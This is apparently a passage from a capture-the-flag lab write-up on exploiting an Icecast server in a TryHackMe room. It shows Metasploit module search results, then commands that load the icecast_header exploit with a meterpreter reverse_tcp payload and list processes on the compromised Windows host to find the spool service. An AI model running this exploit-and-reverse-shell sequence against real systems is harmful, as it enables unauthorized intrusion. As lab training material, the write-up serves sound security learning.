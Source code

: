 ```
   4  exploit/linux/local/desktop_privilege_escalation     2014-08-07       excellent  Yes    Desktop Linux Password Stealer and Privilege Escalation
   5  exploit/multi/handler                                                 manual     No     Generic Payload Handler
   6  exploit/windows/mssql/mssql_linkcrawler              2000-01-01       great      No     Microsoft SQL Server Database Link Crawling Command Execution
   7  exploit/windows/browser/persits_xupload_traversal    2009-09-29       excellent  No     Persits XUpload ActiveX MakeHttpRequest Directory Traversal
   8  exploit/linux/local/yum_package_manager_persistence  2003-12-17       excellent  No     Yum Package Manager Persistence


Interact with a module by name or index. For example info 8, use 8 or use exploit/linux/local/yum_package_manager_persistence
```

**Answer**: `#`
## We're in, now what?
### What's the name of the spool service?
```
msf6 > set PAYLOAD windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/icecast_header) > use exploit/windows/http/icecast_header
msf6 exploit(windows/http/icecast_header) > set LHOST <YOUR_IP_ON_TRYHACKME>
msf6 exploit(windows/http/icecast_header) > set RHOSTS <MACHINE_IP>
meterpreter > ps

Process List
============

 PID   PPID  Name                    Arch  Session  User          Path
 ---   ----  ----                    ----  -------  ----          ----
 0     0     [System Process]
 4     0     System
 416   4     smss.exe
 544   536   csrss.exe
 560   816   WmiPrvSE.exe
 584   692   svchost.exe
 592   536   wininit.exe
 604   584   csrss.exe
 652   584   winlogon.exe
 692   592   services.exe
 700   592   lsass.exe
 708   592   lsm.exe
 816   692   svchost.exe
 884   692   svchost.exe
 932   692   svchost.exe
 1020  692   svchost.exe
 1056  692   svchost.exe
 1136  692   svchost.exe
 1292  692   mscorsvw.exe
 1308  1020  dwm.exe                 x64   1        Dark-PC\Dark  C:\Windows\System32\dwm.exe
 1320  1296  explorer.exe            x64   1        Dark-PC\Dark  C:\Windows\explorer.exe
 1360  692   spoolsv.exe
 1388  692   svchost.exe
 1428  692   taskhost.exe            x64   1        Dark-PC\Dark  C:\Windows\System32\taskhost.exe
 1548  692   amazon-ssm-agent.exe
 1636  692   LiteAgent.exe
 1672  692   svchost.exe
 1768  692   sppsvc.exe
 1816  692   Ec2Config.exe
 2080  692   svchost.exe
 2240  692   TrustedInstaller.exe
```